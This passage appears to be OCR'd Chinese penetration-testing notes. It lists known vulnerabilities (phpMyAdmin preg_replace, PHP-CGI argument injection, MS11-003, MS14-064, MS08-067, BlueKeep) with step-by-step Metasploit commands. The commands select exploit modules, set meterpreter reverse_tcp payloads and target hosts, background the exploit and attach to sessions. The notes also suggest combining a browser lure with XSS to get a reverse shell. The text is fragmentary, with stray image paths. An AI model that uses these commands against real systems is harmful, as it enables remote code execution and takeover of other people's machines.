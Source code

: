 5.版本3.5.x \< 3.5.8.1 或4.0.0 \< 4.0.0-rc3

CVE-2013-3238(远程PHP代码执行)
MSF(exploit/multi/http/phpmyadminpregreplace)

溢出漏洞

**cve-2012-1823**

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image72.png){width="5.760416666666667in"
height="4.205867235345582in"}

phpinfo()查看在Server API 中有CGI/FastCGI

php \< 5.3.12 php \< 5.4.2

就可以使用

use **exploit/multi/http/php_cgi_arg_injection**

set payload php/meterpreter_reverse_tcp

set rhost ip

run

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image73.png){width="5.760416666666667in"
height="1.1980905511811024in"}

**MS11_003之生成后门链接**

set payload windows/meterpreter/reverse_tcp

set URIPATH ui来设置访问模块的具体地址

set srvhost kali ip

set lhost kali ip

set targets 1

使用命令exploit -j后台启动该模块，等待靶机连接上来

sessions 查看连接会话

sessions 5连接

ms10-046网页欺骗

**MS14-064网页诱骗**

和ms11-003一样使用但是影响范围一般是xp

可以和xss梦幻联动（\<a
href=\"<http://www.feiniaomy.com>\"\>\</a\>）反弹shell

**MS08-067 445端口rpc请求缓冲区溢出漏洞，权够大**

**影响:XP系统**

windows/x64/shell/reverse_tcp

**CVE-2019-0708 3389端口反弹meterpreter**
